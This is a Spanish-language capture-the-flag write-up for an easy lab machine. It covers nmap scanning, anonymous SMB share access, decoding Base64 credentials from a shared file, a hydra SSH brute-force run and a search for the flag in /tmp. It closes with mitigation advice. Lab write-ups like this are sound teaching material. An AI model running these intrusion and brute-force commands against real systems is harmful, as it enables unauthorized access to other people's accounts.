## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Técnicas usadas

- Enumeración de servicios
- Acceso SMB no autenticado (Null Session)
- Extracción de credenciales desde recurso compartido
- Decodificación Base64
- Fuerza bruta SSH (credential stuffing con credenciales propias del objetivo)
- Escalada por permisos de archivo mal configurados (File Permission Misconfiguration)

## Fase 1: Reconocimiento y Enumeración

### Escaneo de Puertos

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -sC -sV -oN ports 172.17.0.2
```

**Resultado relevante:**



```bash
nmap -p 22,139,445 -sC -sV -oN allports 172.17.0.2
```



Solo tres puertos abiertos: SSH y Samba. Sin servicio web, el vector de entrada apunta directamente a SMB.

## Fase 2: Enumeración SMB

```bash
enum4linux -a 172.17.0.2
```

La enumeración de usuarios vía `enum4linux` no arroja resultados aprovechables (RPC no responde con listado de usuarios). Se continúa con enumeración de shares:

```bash
smbmap -H 172.17.0.2
```



Sesión nula (`NULL Session`) permitida — el recurso `public` es accesible sin autenticación.

Conexión con `smbclient`:

```bash
smbclient //172.17.0.2/Public -N
```

```
smb: \> ls
```



Las carpetas `upload` y `download` están vacías. Dentro de `system` aparece un fichero interesante:

```
smb: \> cd system\
smb: \system\> ls
```


## Fase 3: Extracción y Decodificación de Credenciales

Descarga del fichero:

```bash
smb: \system\> get db.txt
```

```
cat db.txt
```



> [!warning] Hallazgo crítico Un recurso SMB accesible sin autenticación expone una base de datos de credenciales con las contraseñas codificadas (no cifradas) en **Base64**, un esquema trivialmente reversible.

Separación de usuarios y hashes/Base64 en ficheros independientes:

```bash
cut -d: -f1 db.txt > users.txt
cut -d: -f2 db.txt > base64.txt
```

Decodificación manual de cada valor:

```bash
echo "cGFzc3dvcmQxMjM=" | base64 -d
# password123
```

```bash
echo "cGFzczIwMjYjKiE=" | base64 -d
# pass2026#*!  
```

Tras decodificar las diez entradas se obtiene la lista de contraseñas en claro (`passwd.txt`). Todas siguen el patrón `passwordNNN`, excepto una que rompe el patrón:

```
pass2026#*!
```

Esa contraseña "distinta" es la pista de que ese usuario es el objetivo real del vector de acceso.

## Fase 4: Acceso Inicial vía SSH

Con la lista de usuarios y contraseñas decodificadas se realiza un ataque de credential stuffing contra SSH:

```bash
hydra -L users.txt -P passwd.txt ssh://172.17.0.2 -t 64 -f
```



Conexión:

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh pepe@172.17.0.2
```

```
pepe@critical_system:~$ whoami
```


## Fase 5: Enumeración de Privilegios


```bash
sudo -l
```



Sin acceso a `sudo`. Se buscan binarios SUID:

```bash
find / -perm -4000 -type f 2>/dev/null
```



Ningún binario SUID no estándar ni explotable vía GTFOBins. No hay vector de escalada a root disponible con esta configuración.

## Fase 6: Localización de la Flag

Se busca la flag directamente en el sistema de archivos:

```bash
find / -name "flag.txt" -o -name "flag" -o -name "*.flag" 2>/dev/null
```




```bash
cat /tmp/flag.txt
```



> [!warning] Hallazgo crítico La flag se encuentra en `/tmp`, un directorio con permisos de escritura/lectura global (`sticky bit` pero lectura abierta), accesible por cualquier usuario del sistema sin necesidad de privilegios de root. El propio nombre de la flag (`FILE_PERMISSION_ESCALATION`) confirma que el fallo es de **permisos de archivo mal configurados**, no una escalada de privilegios clásica.

## Flags

```
CTF{FILE_PERMISSION_ESCALATION}
```

## Resumen de Ataque

1. **Reconocimiento**: nmap muestra una superficie mínima — SSH y Samba, sin servicio web.
2. **SMB Null Session**: el recurso `public` es accesible sin autenticación y contiene un fichero `db.txt` con credenciales en Base64.
3. **Decodificación**: el Base64 se revierte trivialmente, revelando contraseñas en claro para 10 usuarios; una contraseña "atípica" (`luis:pass2026#*!`) destaca sobre el resto.
4. **Credential stuffing SSH**: usando `hydra` con las listas de usuarios/contraseñas extraídas de SMB, se obtiene acceso válido como `pepe` — la contraseña "atípica" resultó pertenecer a otra cuenta, evidenciando reutilización de credenciales.
5. **Enumeración de privilegios**: sin `sudo` ni binarios SUID explotables, no hay vector de escalada tradicional.
6. **Exposición de la flag**: el archivo `flag.txt` está en `/tmp` con permisos de lectura abiertos, permitiendo acceder a él sin privilegios de root — el fallo real es de **permisos de archivo**, no de escalada de privilegios.

Esta máquina no depende de un exploit técnico complejo, sino de una cadena de errores de higiene de seguridad: recurso compartido sin autenticación → credenciales mal protegidas (Base64 en vez de hashing) → reutilización de contraseñas entre cuentas → archivos sensibles con permisos demasiado abiertos.

## Medidas de Mitigación

- **Deshabilitar sesiones nulas (Null Session) en Samba**: configurar `smb.conf` para exigir autenticación en todos los recursos, incluso los de "solo lectura".
- **Nunca almacenar credenciales en Base64 ni en texto reversible**: usar hashing con salt (bcrypt, argon2) y, en cualquier caso, no exponer ficheros de credenciales en recursos compartidos accesibles por red.
- **Prohibir la reutilización de contraseñas entre cuentas** dentro del mismo sistema u organización; aplicar políticas de contraseñas únicas y gestores de credenciales.
- **Configurar límites de intentos y bloqueo en SSH** (fail2ban, `MaxAuthTries`, autenticación por clave pública en vez de contraseña) para mitigar ataques de fuerza bruta / credential stuffing.
- **Revisar permisos de archivos sensibles**: nada crítico debería depositarse en `/tmp` u otros directorios con permisos de lectura global; aplicar el principio de menor privilegio también a nivel de sistema de archivos.
- **Auditar periódicamente los recursos SMB expuestos** con herramientas como `smbmap`/`enum4linux` desde una perspectiva defensiva, para detectar shares mal configurados antes que un atacante.


